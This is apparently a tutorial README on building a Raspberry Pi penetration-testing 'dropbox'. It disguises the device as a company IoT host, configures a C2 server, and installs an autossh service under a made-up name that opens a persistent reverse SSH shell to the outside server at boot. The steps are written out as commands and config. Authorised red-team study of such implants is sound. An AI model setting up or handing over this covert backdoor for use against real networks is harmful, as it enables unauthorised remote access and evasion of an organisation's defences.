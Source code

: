 # How to create a simple Pentesting DropBox using a raspberry pi

Why should I use a Raspberry Pi? The main reason is for its small size. It’s possible to hide it in plain sight and easily disguise it as an IoT device on the network.

Another reason is that most companies’ firewalls will block unauthorized access to it. So if one can smuggle a small device onto its network, it’s possible to get a reverse shell and scan the network from somewhere else.
## How to get pass firewall?

The best possible solution is to get the DropBox inside the network to reach back to a C2 (command and control) server. And reach the DropBox from anywhere using the reverse shell through SSH, using the C2 as a passthrough tunnel.

![Reverse Shell](https://github.com/dlirao4891/DropBox/blob/main/Images/blog.finxter.com-reverseshell-768x432.jpg?raw=true)

## Kali installation 
### Image download and install
Kali can be installed right from the [Raspberry Pi Imager](https://www.raspberrypi.com/software/) or following the guide on [Kali](https://www.kali.org/docs/arm/raspberry-pi-4/) The Process is really easy.

![Kali Installation](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-install.png?raw=true)

After installing Kali on the Raspberry Pi, SSH into it. You can find its IP address using your router.

![IP got from router](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-IP.png?raw=true) <br/>
My case I got: `10.10.10.6`

```bash
ssh kali@[kali-IP]
```
The default user and password are `kali:kali`

![First shell](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-first-shell.png?raw=true)

Update and upgrade 
```bash
sudo apt update && sudo apt full-upgrade
```

**After that, change the default password for the `Kali` user.**

![Change password](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-passwd.png?raw=true)

### Minor modifications

The whole idea is to hide in plain sight, so some modifications must be made so the DropBox can disguise as an IoT device.

First, change the hostname in two locations: `/etc/hostname` and `/etc/hosts`. 
Here, anything is valid as long as it looks like it belongs to the company. If you can get the scheme of how the devices are named, it can be easily passed off as just another host.

>On `/etc/hostname`, choose the name you want.
>On `/etc/hosts`, use the same name on the line containing the loopback address (`127.0.1.1`).

![Change hostname](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-changehostname.png?raw=true)

After this step, the DropBox will mostly look like it’s just another host on the network. Of course, there are situations when the company adopts MAC-address filtering. And This can be a problem.

At this point, the basic configuration is done on the Raspberry Pi. But we will come back to it soon.

---
## C2 settings

A crucial part of this is the Command and Control server. It’s the middle-man in the communication. The DropBox will try to make contact with it, and when the connection is established, the reverse shell will be accessible.

For this, I decided to use a Ubuntu 22.04 LTS on [Linode](www.linode.com). It's just a basic shared CPU with privet IP.
### SSH configuration
On the file `/etc/ssh/sshd_config`, we have to change three lines:

```bash
AllowTcpForwarding yes
GatewayPorts yes
PasswordAuthentication yes
```
This will enable port forwarding and enable authentication using a password.

After changing the lines, just restart the SSH service.
```bash
sudo service ssh restart
```

### User
A new Ubuntu “linode” installation will have only the root user, so we’ll add a new user.
```bash
adduser [username]
```

After this, the **basic** configuration for the C2 will be ready.

> For a real engagement, it’s recommended to strengthen the security of the C2. **This configuration is just for demonstration.**
 
---

## Create the reverse shell tunnel

At this point, we go back to the Raspberry Pi, and the main idea now is to generate a pair of keys (public and private), so the DropBox can authenticate SSH into the C2 server without a password. For this, we will create an `SSH keypair`.
```bash
ssh-keygen
```
Just generate the keypair; there is no need for a password.

Copy the public key to the C2 server
```bash
ssh-copy-id [username]@[CnC-Server-IP]
```
Provide the password for the user.

After this, it’s not necessary to enter a password to connect to the server.
```bash
ssh [username]@[CnC-Server-IP]
```

### AutoSSH

Install `AutoSSH`. For more info about it see [SSH tunnelling for fun and profit: Autossh (everythingcli.org)](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/)

```bash
apt install autossh -y
```

The idea is to automate the SSH tunnel. So when the DropBox is turned on and is plugged into a network, it will automatically connect to the C2, and the reverse shell will be on.

After the installation is complete, we should create a service, so the autossh will start automatically. To create the service, first create the file `/etc/systemd/system/[Some_Cool_Service_Name].service` and add the following to it:
```bash
[Unit]
 Description=/etc/[Same_Cool_Sevice_Name] Compatibility
 ConditionPathExists=/etc/[Same_Cool_Sevice_Name]
[Service]
 Type=forking
 ExecStart=/etc/[Same_Cool_Sevice_Name] start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

And then the next file `/etc/[Same_Cool_Sevice_Name]`. Add the following:
```bash
#!/bin/bash -e
autossh -M 0 -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 6969:localhost:22 -i /home/kali/.ssh/id_rsa [kali]@[CnC-Server-IP] &
exit 0
```

- The `-M` is the monitoring port. autossh will send test data to check if it is still connected to the server. The autossh manual suggests using `ServerAliveInterval` and `ServerAliveCountMax` on recent versions of OpenSSH. But the monitoring port can be turned off using the value 0.
- The `-f` causes `autossh` to drop to the background before running `ssh`.
- The `-N` tag is for not executing a remote command. 
- Tag `-o` is to specify the options.
- The `-R` option is used to set the remote port. In this case, the Dropbox will be accessible on port 6969. If the organization has strict outbound filtering policies, a good option for this is port 443.
- The `-i` sets the location from where `ssh` will find the privet key.
- And the `&` is to prevent the DropBox to hang at boot.

Make `/etc/[Same_Cool_Sevice_Name]` executable:
```bash
chmod +x /etc/[Same_Cool_Sevice_Name]
```

Enable `[Same_Cool_Sevice_Name].service`

```bash
systemctl enable [Same_Cool_Sevice_Name]
systemctl start [Same_Cool_Sevice_Name].service
```

## Test connection

After plugging the DropBox into a test network, you can check the SSH connection by logging in first from the C2 server:

```bash
ssh kali@localhost -p 6969
```
Enter the password for the `kali` user. Note that the port must be the same one that was set on `autossh`.

Next, you can log in from any other place:

```bash
ssh kali@[CnC-Server-IP] -p 6969
```
